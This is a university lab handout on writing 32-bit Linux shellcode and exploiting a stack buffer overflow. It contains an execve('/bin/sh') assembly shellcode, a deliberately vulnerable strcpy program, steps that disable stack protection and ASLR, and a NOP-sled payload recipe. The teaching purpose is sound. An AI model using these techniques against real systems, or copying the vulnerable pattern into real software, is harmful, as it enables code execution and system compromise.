


# Lab 5: Shellcodes and Buffer Overflows

## Contents

- Objective
- Background
  - Install packages
  - Running in a container
  - Shellcodes in Linux
- Exploiting Buffer Overflows
  - Preliminary work
  - The Vulnerable code
  - Let's make the code crash
  - NOP sleds
- Deliverables
- References

## Objective

In this lab we will learn how to create shellcode to break a running C
application through a buffer overflow to spawn a shell on the system.

Given the complexity of such a task, we will guide you step by step. You will
have to deliver a document with the screenshots of the process you followed to
do the shellcode and the overflows.

## Background

### Install packages

```bash
sudo apt update && sudo apt install \
   nasm binutils bsdmainutils make gcc gcc-multilib gdb python3
```

If you cannot install these packages, see [Running in a
container](#running-in-a-container) to build a custom podman image with the
toolchain.

### Running in a container

If you cannot install the packages on the lab machine, use a container. The
whole toolchain runs inside the container, and you need no root on the host.

Write this `Containerfile`:

```dockerfile
FROM docker.io/library/debian:12

RUN apt-get update && apt-get install -y --no-install-recommends \
      gcc-multilib gdb nasm binutils bsdmainutils make python3 \
    && rm -rf /var/lib/apt/lists/*

WORKDIR /work
```

Build the image and start a shell:

```bash
podman build -t lab5-toolchain .
podman run --rm -it \
  --security-opt seccomp=unconfined \
  -v "$PWD":/work:Z -w /work \
  localhost/lab5-toolchain
```

The container runs as root internally. Those privileges stay unprivileged on the
host.

Two caveats apply. The command above already handles both.

- **ASLR.** The `sudo sysctl -w kernel.randomize_va_space=0` step does not work
  from a rootless container, because the setting is not namespaced. Use GDB
  instead. GDB disables ASLR for the program it runs by default (`set
  disable-randomization on`). For a direct run, use `setarch -R ./vulnerable`.
- **seccomp.** The default podman seccomp profile blocks `personality`, the
  system call that GDB and `setarch` use to disable ASLR. GDB then prints `Error
  disabling address space randomization: Function not implemented`, and the
  stack addresses change on every run. The `--security-opt seccomp=unconfined`
  flag above fixes this.

### Shellcodes in Linux

This first part of the lab will provide the basis to create shellcode. We will
start with the basics and keep complicating things.

Before going into the code, remember:

Shellcode is a binary blob that contains machine instructions but has the
particularity that it does not contain any 0. The reason for this is that we
will normally inject it into a string variable, and `\0` in C means end of
string.

The first task will be performed on Linux. For the purpose of this first task we
will use a basic C placeholder to allow our shellcode to be executed. The C code
is very simple and crafted for the purpose of this lab:

```c
int main(int argc, char **argv) {
    char code[] = "HERE GOES OUR SHELLCODE";
    int (*hack_func)(); // First we define a function pointer
    hack_func = (int (*)()) code; // Assign the func. pointer to the shellcode
    (int)(*hack_func)(); // We invoke the function
}
```

The variables in the code need to be local in the `main` (due to compiler
optimisations), DON'T make them global.

As commented above, the shellcode will be a string containing machine
instructions and will be placed in the string name `code[]`. For the moment, we
still do not have the shellcode programmed, so we keep this C code open.

Now let's create a shellcode that just prints something on the screen. As this
is the first shellcode we will babysit you a little bit. To do this, on Linux
(and UNIX in general) we have to invoke the `write` system call on STDOUT.
Careful, the next code is Linux dependent, and will not work on other operating
systems. The code creating this output message is as follows:

```asm
[SECTION .text]

global _start
_start:
jmp short ender
starter:
xor eax, eax ; In this way, the value of the registers is set to 0.
xor ebx, ebx ; It is used to avoid using 0 and thus
xor edx, edx ; nulls \0 on our shellcode
xor ecx, ecx ;

mov al, ?? ; search which is the code for write system call
mov bl, ?? ; stdout file descriptor
pop ecx ; get the address of the string from the stack (IP from call!!)
mov dl, ?? ; length of the string you want to print in the last line, count \0
int 0x80 ; Interrupt for kernel to run the syscall

xor eax, eax
mov al, 1 ; exit the application
xor ebx, ebx
int 0x80

ender:
call starter ; put the address of the string on the stack
db '??' ; put the string you want to print
```

Easy right? Take some time to evaluate the above code and try to figure out
which is the integer value to the `write` system call, the default STDOUT file
descriptor and the length of the string you defined. Careful, and remember, if
you use `int 0x80` the system call number will be different from when we invoke
the `syscall` instruction.

Once this is clear, we have to actually generate the bytecode for our shellcode.
This is a fairly easy process to perform. First we have to generate the object
with nasm:

```bash
nasm -f elf32 [ASM_FILE] -o [OBJECT_FILE]
```

Where the flag `-f elf32` will guarantee to generate 32bit machine code, which
is what we want looking at the assembly code. `[ASM_FILE]` is our source ASM
code file and the `[OBJECT_FILE]` (usually ended by `.o` extension) is the
output. If all goes as expected, this should generate a `.o` file with the object
code (intermediate code before the final machine code). Then we just need to
link the code to generate an executable:

```bash
ld -melf_i386 -o [EXECUTABLE] [OBJECT_FILE]
```

As expected this would create an executable out of our assembly code. Now you
can try and run it:

```bash
./[EXECUTABLE]
```

It should print your string on the screen. Nice!

Now comes the tricky part, we have to extract the bytecode out of the executable,
to do so we will use objdump (present in binutils package). Here goes a partial
example output:

```bash
objdump -d OBJECT_FILE
```

```text
text_output: ...

Disassembly of section .text:

00000000 <_start>:
0: eb 19 jmp 1b <ender>

00000002 <starter>:
2: 31 c0 xor %eax,%eax
4: 31 db xor %ebx,%ebx
6: 31 d2 xor %edx,%edx
8: 31 c9 xor %ecx,%ecx
.
.
.
19: cd 80 int $0x80

0000000000401021 <ender>:
1b: e8 e2 ff ff ff call 2 <starter>
20: 68 65 6c 6c 6f pushq $0x6f6c6c65
25: 0a .byte 0xa
```

Nice!, now we have to get the binary code and stream it like this:

```text
eb 19 31 c0 ... 47
```

and transform this to something our C code may understand (add `\x` in front of
each 2-hex digit):

```text
"\xeb\x19\x31\xc0 ... \x47"
```

Be very careful not to insert any space or any strange character in between as
it will disrupt your shellcode. You have two options here. First, you can
copy/paste the output of the `objdump` command starting with line `0:` in a txt
file. Work on the file to remove all unnecessary information and keep only the
binary code, organize the binary code in a stream and finally add `\x` in front
of each 2-hex digit. The second option is to write a script to parse objdump (or
better, use objcopy and hexdump) to avoid human errors during the tedious
process.

Almost there!, now we have to go back to our C source at the beginning and
define the code variable with our shellcode:

```bash
char code[] = "\xeb\x1f\x48\x31\xc0\x48\x31\xdb ... \x6c\x6f"
```

Now the last step, let's compile our software:

```bash
gcc -g -m32 -z execstack -o [FINAL_EXEC] [C_FILE]
```

And run it… Impressed?, we just finished our first shellcode exercise, so we
were able to execute code from our string buffer. YAY!!!

Take your time to understand all the above, it will be needed later.

## Exploiting Buffer Overflows

If you look for "Linux Buffer Overflow Examples" on your favorite search engine
you will find plenty of examples, some of them pretty good. The problem in
general is outdated methods due to compiler upgrades and the inherent complexity
of doing it.

### Preliminary work

Given the present security measures of up-to-date kernels, compilers and systems
in general we will cheat a little bit to understand the concept. To this end we
will compile and use a specially crafted application that will allow us to
bypass such security protections.

The first action is to disable temporary the Address Space Layout Randomization
(ASLR) method by running:

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

If this command fails because you run inside a container, see [Running in a
container](#running-in-a-container).

Therefore, the second action is to compile the application using the following
options (please note that we already used some of them when we compiled the
shellcode):

- `-mpreferred-stack-boundary=2`: Ensure that the stack is set up into 4-bytes
  increments, preventing optimisation of the stack segmentation that could make
  our example confusing.
- `-fno-stack-protector`: Disables stack protection.
- `-z execstack`: Makes the stack executable, which is necessary for executing
  shellcode stored on the stack.
- `-no-pie`: Disables Position Independent Executable, making it easier to
  predict the memory address where our shellcode will be located.
- `-m32`: Compiles the program as a 32-bit executable, often used for simplicity
  in exploit development.
- `-g`: Generates debug information to be used by GDB debugger.

### The Vulnerable code

For the purpose of this lab, we will use the following C vulnerable code
(`vulnerable.c`):

```c
#include <stdio.h>
#include <string.h>

void vulnerable(char *name) {
    char buffer[100];
    strcpy(buffer, name);
}

int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    printf("Returned safely\n");
    return 0;
}
```

Try compiling and playing around with arbitrary inputs, don't forget to use the
gcc flags specified above. Are you able to crash the application? Think a little
bit on how you could cause a Segmentation Fault.

### Let's make the code crash

As you may have guessed, overflowing the stack will cause nasty things, let's
try:

```bash
./vulnerable $(python3 -c 'print ("A" * 120)')
```

```text
Segmentation fault
```

Nice, now let's debug it a little bit. Compile the above code using the flags
and use GDB:

```bash
gdb ./vulnerable
```

- Place a breakpoint at line 7 (closing bracket `}` of the vulnerable function):
  `b 7`
- Run it with the command:
  `run $(python3 -c 'print("A"*100+"B"*4+"C"*4+"D"*4)')`
- Prints 28 * 32bit words starting at the stack: `x/28x $esp`

  You should be able to find at the lowest memory position of the stack the
  buffer passed to the function. You should also be able to spot the EBP and the
  return values present on the stack to be recovered when returning to the
  function. You can even look at the assembly code using the `disassemble`
  command.

- Continue the execution with `c` and wait for it to crash and let's examine
  what's wrong with it using `info registers`:

```text
(gdb) b 7
(gdb) run $(python3 -c 'print("A"*100+"B"*4+"C"*4+"D"*4)')
(gdb) x/28x $esp
0xffffcba0:        0x41414141        0x41414141        0x41414141         0x41414141
0xffffcbb0:        0x41414141        0x41414141        0x41414141         0x41414141
0xffffcbc0:        0x41414141        0x41414141        0x41414141         0x41414141
0xffffcbd0:        0x41414141        0x41414141        0x41414141         0x41414141
0xffffcbe0:        0x41414141        0x41414141        0x41414141         0x41414141
0xffffcbf0:        0x41414141        0x41414141        0x41414141         0x41414141
0xffffcc00:        0x41414141        0x42424242        0x43434343         0x44444444
(gdb) c
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
eax              0xffffcba0             -13408
ecx              0xffffcff0             -12304
edx              0xffffcc0c             -13300
ebx              0x42424242             1111638594           // BBBB
esp              0xffffcc10             0xffffcc10
ebp              0x43434343             0x43434343           // CCCC
esi              0xffffcce0             -13088
edi              0xf7ffcb60             -134231200
eip              0x44444444             0x44444444           // DDDD
...
```

![Stack layout before and after the buffer overflow, with buffer[100], the saved ebx, ebp and eip and the overflowed values AAAA, BBBB, CCCC and DDDD](img/img-000.png)

OK, now it's your time to investigate a little bit and think how you can craft
the passed string to overwrite the return address to point somewhere within the
buffer. Note that since later we want to obtain a shell, we don't care about the
EBP value, so we can overwrite that as well.

What would happen if instead of "A"s on the input we manage to insert here our
shellcode?

At the beginning of this session we built our first shellcode, which just
printed stuff on the screen, let's modify it to manage to invoke the `execve`
system call. This is not straight forward and you may need some help. First we
need to understand how the `execve` call works:

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

Also consider that `argv[0]` needs to contain the same value as `pathname` and
be NULL terminated. For this example we will leave `envp` as NULL as well. There
are many ways of obtaining this on assembler, but they all share something in
common, our shellcode must NOT have any `\0` as it would terminate our string,
hence, we will have to do some workarounds for that. The one proposed here is
just another alternative:

```asm
[SECTION .text]
global _start
_start:
   jmp short ender
starter:
   pop ebx                ; get the address of the string
   xor eax, eax
   mov [ebx + 7], al      ; put a NULL where the N is in the string
   mov [ebx + 8], ebx     ; put the address of the string to where the AAAA is
   mov [ebx + 12], eax ; put 4 null bytes into where the BBBB is
   mov al, 11             ; execve is syscall 11
   lea ecx, [ebx + 8]     ; load the address of where the AAAA was
   lea edx, [ebx + 12] ; load the address of the NULLS
   int 0x80               ; call the kernel, WE HAVE A SHELL!
ender:
   call starter
   db '/bin/shNAAAABBBB'
```

Since we did all the hard work, we'll let you convert that to shellcode as you
did in the first example.

Now let's try this. Craft a buffer that has the shellcode as well as the
capability of overwriting the return value to the initial shellcode, the value
you want to jump to may be found using GDB. Try this, but don't spend more than
30 minutes on it. It's hard!

```bash
./vulnerable $(python3 -c 'import sys; sys.stdout.buffer.write(b"SHELLCODE")')
```

We face several problems here, first is the fact that the offsets may change,
and it's complex to get it right as we don't have margin for error (now imagine
if we turned ASLR on again…), so we need to be a little bit smarter, so, let's
create a NOP Sled.

### NOP sleds

A NOP sled, also known as a NOP slide, is a technique used to help ensure that a
shellcode is executed even if the exact memory location of the exploit payload
is not known.

The NOP, or No-Operation, instruction is a machine language instruction that
performs no operation and takes up one machine cycle. NOP sled takes advantage
of this instruction by creating a sequence of NOP instructions that can serve as
a landing pad for the program execution flow.

We will craft a sequence of NOP instructions followed by our shellcode. The idea
is that if the execution flow is redirected to any point within the NOP sled,
the CPU will execute the NOP instructions and keep moving forward until it hits
the shellcode.

When utilizing a NOP-sled, the precise location of the shellcode within the
buffer doesn't matter for the return address to reach it. What we do know is
that it will reside somewhere within the buffer.

Let's create a buffer that looks like: **NOP-Sled + Shell Code + Padding + Return
address**



The size of it all needs to be exactly 100 + EBX + EBP + EIP. Depending on your
system, it may need other temporary values, so it is advised to check with GDB
the exact amount.

The length of the shellcode is constant, the NOP-Sled can be as big as we want
(NOP is encoded as `\x90`), padding may be as big (and random) as needed, and
the return values need to be obtained. To do so, fire up GDB and check the stack
with the commands we used before, and then, create a python (or whatever
scripting language you want) and create an input for the program with all the
above logic. Remember that since Intel CPUs are little endian, we need to
reverse the address for our payload.

Good luck!!!! :)



Use the following Makefile to build and execute the application. Replace
`python3 vulnerable.py` with your own application if needed to generate the
input that will trigger the vulnerability.

```makefile
.DEFAULT_GOAL := all

# Write here any comment you need to include

.PHONY: build
build:
	@gcc -g -mpreferred-stack-boundary=2 \
		-fno-stack-protector -z execstack -no-pie -m32 \
		-o vulnerable vulnerable.c

.PHONY: debug
debug: build
	@gdb ./vulnerable

.PHONY: shellcode
shellcode:
	@nasm -f elf32 shellcode.asm -o shellcode.o
	@objcopy -O binary -j .text shellcode.o /dev/stdout \
		| od -An -v -t x1 \
		| sed 's#\ #\\\x#g' \
		| tr -d '\n'

all: build
	gdb -ex=run --args ./vulnerable `python3 vulnerable.py`
```

## Deliverables

Submit a single compressed file (tar or zip) that contains:

- Source code of the shellcode to open the shell (`.asm`).
- Source code of the vulnerable code (`.c`).
- Source code of the exploit code (`.py`).
- Makefile to run the vulnerable code with the shellcode, or a text document
  with the commands to follow, from compiling the code to running the attack.
- Video of the attack execution.

## References

- How to look at the stack in GDB: <https://jvns.ca/blog/2021/05/17/how-to-look-at-the-stack-in-gdb/>
- GDB Command History: <https://sourceware.org/gdb/current/onlinedocs/gdb.html/Command-History.html>
- Introduction to Return Oriented Programming (ROP): <https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html>
